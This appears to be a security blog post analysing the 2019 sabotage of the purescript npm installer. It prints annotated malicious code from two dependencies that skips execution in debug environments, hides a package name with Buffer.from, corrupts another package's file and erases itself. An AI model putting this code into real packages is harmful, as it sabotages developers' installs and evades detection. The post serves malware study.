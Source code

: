 ```yaml
---
layout: post
title: My Favourite Dep Malware PureScript NPM Installer
subtitle: A tale of a really cool piece of malware you probably haven't heard of
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: /assets/img/post5/npm-installer.png
share-img: /assets/img/post5/npm-installer.png
tags: [supplychain, sdlc]
---
```


#### Background


In July 2019, code was added to an upstream of the [`purescript` npm installer](https://www.npmjs.com/package/purescript) which sabotaged the completion of the installation process in a particularly interesting way. The subterfuge was particularly difficult to uncover/debug, taking 5 days for some of the most talented and skilled npmjs devs almost 5 days to unravel. It wouldn't be unfair to say that this event "stumped" (their words, not mine) some of the most talented and well versed engineers in this space.
It's my favourite dep malware, not because it resulted in some epic hack, but because it was so well executed by somebody with an innate understanding of the downstream landscape.

The malware takes advantage of how downstream projects load in the affected code, it uses conditional exploitation logic to hamper debug efforts, and uses just the right level of obfuscation to not immediately look suspect (no super sus looking B64'd blobs here). The malicious software also cleans up after itself.

In this post I hope to step through just how all this took place, so maybe we can all be impressed and together. This particular event got very little coverage, so hopefully you find reading about it notable even though it was a little while ago.

My colleagues really like it when I annotate malware for them, particularly side-by-side, so here's an attempt at posting in that format.

#### Timeline



#### What you're looking at / code intent

The samples below both sabotage the `purescript`  npm installer process to prevent it running successfully under certain conditions.





####   The Details: exploit version 1 `load-from-cwd-or-npm@3.0.2`

You can grab a copy of the dependency off of my repo here:  [`load-from-cwd-or-npm@3.0.2`](https://github.com/5stars217/My_Fav_Malware/tree/main/load-from-cwd-or-npm-3.0.2)

Load up a editor and open `load-from-cwd-or-npm@3.0.2` index.js file.

Check out lines 50 - 83: - I am going to #annotate the below snippet for you, watch out for the comments (#) in the code snippet.
The below code is designed to determine the environment it is running in, and decide what action to take.

`const tasks = [PassThrough];`

    //Create tasks array containing the Passthrough Stream Constructor.
    //Call tasks.unshift twice, so that it winds up at index 2 later.

  ```if (argLen === 2) {
     if (typeof args[1] !== 'function') {
        throw new TypeError(`Expected a function to compare two package versions, but got ${
          inspectWithKind(args[1])
    }.`);
  }```

`} else {
    #call  tasks.unshift 1
  tasks.unshift(resolveSemverFromNpm);

}``

      //call tasks.unshift 2. Now the PassThrough constructor is at index 2 in the tasks array.

`tasks.unshift(resolveFromNpm(modulePkgId));``

`try {
  const results = await Promise.all(tasks);
  let parent = module;`

    //Here comes a do-while loop that works out how the code is being run,
      //by inspecting the parent property of each module in the chain.
        //Check out the path.endsWith("cli")

  ```do {   
    parent = parent.parent;``

  try {
    const {path} = parent;`

//the attacker is deciding whether or not to run the exploit code, by checking on the version of the purescript npm installer,
//and if there is a .git working directory.  If the code detects a .git working directory, it'll skip the exploit.
//This is because .git directories aren't present in production environments, so it makes debugging this issue way harder.
// The intent is to  determine if a particular version of an installer is being run,
//and if the code is being run in a environment where it could be easily debugged!

       `if (path.endsWith('cli') || [path, dirname(path)].some(dir => existsSync(resolve(dir, '.git')))) {
        parent = 'npm';
        break;
      }
    } catch (_) {}
  } while (parent);`

//The purpose of this parent variable is just the layup for the exploit code if the above conditions are met to allow for it.

  `if (typeof parent !== 'string') {
    return results[2];
  }`

//here's that [2] what's happening here is an if statement returning the PassThrough constructor
//in the case where the malicious code is being run, this breaks a related function to pull down some
//packages to complete the building of the software:

`const request = loadFromCwdOrNpm("request");
request("https://github.com/.../archive.tar.gz").pipe(...);`



#### The Details: exploit version 2 `rate-map@1.0.3`

You can grab a copy of the dependency off of my repo here:  [`rate-map@1.0.3`](https://github.com/5stars217/My_Fav_Malware/tree/main/rate-map-1.0.3/package)

Things get a little spicier from this point on. This version of the exploit contains the same `do-while` loop decision gate on exploitation, but it includes some significant upgrades.

`let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");
  //You'll see the same check here if the code is running in a debug or non production environment.
  //But it'll also check for the presence of the `dl-tar` package on local filesystem via obfuscation:
do {
  parent = parent.parent;
  try {
    const { path: path } = parent;
    if (
      path.endsWith("cli") ||
      [path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {
      parent = "npm";
      break;
    }
  } catch (_) {}
} while (parent);
if (typeof parent !== "string") {
  const px = require.resolve(
    # `Buffer.from` obfuscates the check for the `dl-tar` package on local filesystem.
    Buffer.from([100, 108, 45, 116, 97, 114]).toString()
  );
  //store the `index.js` from `dl-tar` in the `px` variable in the next block, which will rewrite the current file to remove the malicious code!
  try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}
//this next block replaces any lines in `dl-tars`'s `index.js` file to match the regex `/\n\s*cb\(null, chunk\` with empty strings, the result is that `dl-tar` users can't install the project.
  try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
}`




#### Final Notes

I intentionally skipped over some background information surrounding the disagreements between authors of `purescript` and `load-from-cwd-or-npm` etc. I just think the techniques used particularly  in `rate-map@1.0.3` are great uses of light (but effective) obfuscation and conditional exploitation.
